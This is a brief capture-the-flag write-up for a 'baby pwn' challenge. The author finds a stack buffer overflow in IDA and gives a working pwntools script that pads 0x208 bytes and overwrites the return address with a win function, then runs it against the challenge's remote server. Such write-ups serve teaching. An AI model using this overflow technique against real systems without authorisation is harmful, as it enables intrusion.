



# baby pwn

The executable looks like the setup for a pwn-ing challenge indeed:



As this is the easiest pwning challenge in this CTF, I decided not to make things too complicated. By opening the executable in IDA, I can see that this is indeed the setup for a basic buffer overflow.



Note the `0x200` bytes offset... IDA makes this a bit too easy! There is a `win` function too, clearly to use as target.



Even though that's not really necessary for this simple challenge... I use pwntools to create a payload, out of habit. The following indeed does the trick:

```
from pwn import *

context.binary = "./chall"
elf = context.binary

process = elf.process()
payload = cyclic(0x208) + p64(elf.symbols["win"])

process.sendlineafter("name:\n", payload)
process.interactive()
```

I verified that this works locally, and then replaced `process = elf.process()` by `remote("34.76.206.46", 10002)` to get the flag.
